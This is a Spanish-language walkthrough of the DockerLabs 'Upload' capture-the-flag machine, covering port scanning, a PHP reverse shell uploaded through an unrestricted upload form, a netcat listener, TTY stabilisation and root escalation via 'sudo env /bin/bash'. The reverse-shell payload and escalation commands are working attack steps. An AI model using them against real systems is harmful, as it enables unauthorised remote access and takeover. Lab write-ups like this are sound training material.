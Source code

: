 ```yaml
---
icon: flag
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Upload DockerLabs (Easy)

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip upload.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh upload.tar
```

Info:

```
                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-08 11:05 CET
Nmap scan report for 172.17.0.2
Host is up (0.000036s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Upload here your file
|_http-server-header: Apache/2.4.52 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.60 seconds
```

Vemos que hay un puerto `80` y si entramos veremos una pagina en la que podremos subir un archivo, por lo que vamos a probar a subir un `.php` para crear una `reverse shell`.

> shell.php

```php
<?php
$sock=fsockopen("<IP>",<PORT>);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
?>
```

Ahora nos vamos a la pagina y subiremos el archivo, veremos que se pudo subir correctamente sin ningun tipo de restrciccion, ahora vamos a ver donde esta subir dicho archivo.

Si probamos a poner `/uploads` veremos que si funciona y estara dentro nuestro archivo, por lo que antes de clicarlo para ejecutarlo nos pondremos a la escucha de la siguiente forma:

```shell
nc -lvnp <PORT>
```

Y ahora pinchamos el archivo, una vez echo eso, si volvemos a donde tenemos la escucha veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.5.28] from (UNKNOWN) [172.17.0.2] 32890
whoami
www-data
```

Por lo que vemos seremos el usuario `www-data`, ahora tendremos que sanitizar la `shell`.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for www-data on 702664e2e7ef:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User www-data may run the following commands on 702664e2e7ef:
    (root) NOPASSWD: /usr/bin/env
```

Vemos que podemos ejecutar el binario `env` como el usuario `root` por lo que haremos lo siguiente:

```shell
sudo env /bin/bash
```

Info:

```
root@702664e2e7ef:/home# whoami
root
```

Con esto seremos `root` por lo que habremos terminado la maquina.
